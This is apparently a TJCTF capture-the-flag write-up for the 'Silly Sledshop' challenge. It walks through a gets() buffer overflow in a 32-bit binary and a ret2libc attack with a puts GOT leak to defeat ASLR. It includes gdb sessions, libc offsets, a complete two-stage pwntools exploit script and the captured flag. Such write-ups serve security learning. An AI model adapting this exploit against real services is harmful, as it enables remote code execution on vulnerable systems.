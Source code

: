 ## TJCTF: Silly Sledshop
##### *ret2libc leak + maybe other approaches*
#### I might be ashamed to say this but this challenge got me stuck on it for the duration of the competition. Initially, I thought I was going to solve it through buffer overflow plus nopsleds to execute shellcode, but I had problems regarding some addresses *(solution for this approach soon). After some asking around for nudges, I opted to go for the ret2libc attack on the challenge server, which I got stuck on again, but eventually solved it, hours after the ctf ended. From this, I conclude that there are a lot of things for me to learn, new attacks and approaches to read on and experiment about. 
#### First things first, we examine the binary and it's security measures with ```file``` and ```checksec```:
```
$ file sledshop
sledshop: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=28fae6ecbea7effce8bcd28dd0e53dbd40ecd702, not stripped

$ checksec sledshop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
#### From here, we see that we're dealing with a 32-bit binary with most security measures turned off. So we can say that this is vulnerable to buffer overflow attacks given that no canary is found on the stack. Shellcoding is another way to go, but that will be for another part, I'll tackle the ret2libc approach. It's also important to know that we have the source code for the binary:
```c
#include <stdio.h>
#include <stdlib.h>

void shop_setup() {
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    setbuf(stdout, NULL);
}

void shop_list() {
    printf("The following products are available:\n");
    printf("|  Saucer  | $1 |\n");
    printf("| Kicksled | $2 |\n");
    printf("| Airboard | $3 |\n");
    printf("| Toboggan | $4 |\n");
}

void shop_order() {
    int canary = 0;
    char product_name[64];

    printf("Which product would you like?\n");
    gets(product_name);

    if (canary)
        printf("Sorry, we are closed.\n");
    else      
        printf("Sorry, we don't currently have the product %s in stock. Try again later!\n", product_name);
}

int main(int argc, char **argv) {
    shop_setup();
    shop_list();
    shop_order();
    return 0;
}
```
#### We see here some functions such as shop_setup and shop_list which just prints out and sets the permissions to the binary. What we do want to be interested in is the ```shop_order``` function, which uses a gets call for user input. As we know we can smash the stack using this vulnerable call so what we have to do now is to determine the offset needed to overwrite the instruction pointer.
```
$ gdb ./sledshop
  gdb-peda$ pattern create 100
  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
  
  gdb-peda$ r
  The following products are available:
  |  Saucer  | $1 |
  | Kicksled | $2 |
  | Airboard | $3 |
  | Toboggan | $4 |
  Which product would you like?
  AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
  [...]
  EIP: 0x41414a41 ('AJAA')
  Stopped reason: SIGSEGV
  0x41414a41 in ?? ()
  
  gdb-peda$ pattern offset AAJA
  AAJA found at offset: 80
```
#### We were able to overwrite the eip register with offset 80. But after that, where do we want to jump to? Since we're performing a ret2libc attack here, we follow the usual approach - we jump to the system function, add some address we want to exit to, and we supply the address of the /bin/sh string to be an argument for the system function. The catch here is that ASLR is enabled server side; hardcoding addresses won't help. So what we have to do now is to leak addresses of functions from the server. We do this by ```getting the address of the puts function in the plt, return to the shop_order function to prevent program termination, and supply the address of the puts function in the got to its plt counterpart```
```
gdb-peda$ p puts
$1 = {<text variable, no debug info>} 0x80483f0 <puts@plt>

gdb-peda$ disas puts
Dump of assembler code for function puts@plt:
   0x080483f0 <+0>:	  jmp    DWORD PTR ds:0x804a01c
   0x080483f6 <+6>:	  push   0x20
   0x080483fb <+11>:	jmp    0x80483a0
End of assembler dump.

gdb-peda$ p shop_order 
$2 = {<text variable, no debug info>} 0x80485bc <shop_order>
```
#### We take note of these addresses: puts@plt is at 0x80483f0, puts@got is at 0x804a01c, and the shop_order function is at 0x80485bc. We can now craft our initial payload to leak, send it to the server, and take note of the leaked address:
```python
#: Exploit code; Stage 1
offset = 'A' * 80
puts_plt = 0x080483f0
puts_got = 0x0804a01c
shop_order = 0x080485bc
exploit = offset + p32(puts_plt) + p32(shop_order) + p32(puts_got)

#: Send payload; Leak puts
p.sendline(exploit)
print(p.recv())
puts_leak = u32(p.recv().split()[4][:4])
```
#### Since ASLR is enabled on the challenge server, the address that we leaked will be different every time we run our script. After leaking the address of puts from the server, we input the last three bytes (even with ASLR, the last three bytes will always be constant) of what we have to ```libc.blukat.me``` to find out which version of libc the server uses and to know at what offsets our ingredients for ret2libc reside. 
```
libc6-i386_2.23-0ubuntu11_amd64 
  Symbol	    Offset	 
	system	    0x03a940	
	puts	      0x05f140	
	open	      0x0d3f40	
	read	      0x0d4350	
	write	      0x0d43c0	
	str_bin_sh	0x15902b	
  exit        0002e7b0
```
#### Great! Now we have the offsets for the ingredients we need for our exploit. But first, we need to calculate the base address for the libc using the formula ```libc_base = puts_leak - puts_offset```. After which, we add the offsets for the functions and variables we need to the libc_base to get their exact address in the libc. 
```python
libc_base = puts_leak - 0x5f140
system = libc_base + 0x3a940
exit = libc_base + 0x2e7b0
bin_sh = libc_base + 0x15902b
```
#### When we have already done that, we proceed with our usual exploit method - overflow the buffer, jump to system and get shell. For our final script:
```python
from pwn import *

#: Connect to chalenge server 
HOST = 'p1.tjctf.org'
PORT = 8010
p = remote(HOST,PORT)
print(p.recv())

#: Exploit code; Stage 1
offset = 'A' * 80
puts_plt = 0x080483f0
puts_got = 0x0804a01c
shop_order = 0x080485bc
exploit = offset + p32(puts_plt) + p32(shop_order) + p32(puts_got)

#: Send payload; Leak puts
p.sendline(exploit)
print(p.recv())
puts_leak = u32(p.recv().split()[4][:4])
print(hex(puts_leak))

#: Exploit code; Stage 2
offset = 'A' * 80
libc_base = puts_leak - 0x5f140

system = libc_base + 0x3a940
exit = libc_base + 0x2e7b0
bin_sh = libc_base + 0x15902b

exploit = offset + p32(system) + p32(exit) + p32(bin_sh)

#: Send payload; Stage 2
p.sendline(exploit)
print(p.recv())
print(p.recv())
p.interactive()
```
#### We run the exploit, get shell, and cat out the flag! :)
```
$ python exploit.py
[+] Opening connection to p1.tjctf.org on port 8010: Done
The following products are available:

|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
Which product would you like?

Sorry, we are closed.

[*] Switching to interactive mode
$ ls
flag.txt
sledshop
wrapper
$ cat flag.txt
tjctf{5l3dd1n6_0mk4r_15_h4ppy_0mk4r}
```
  
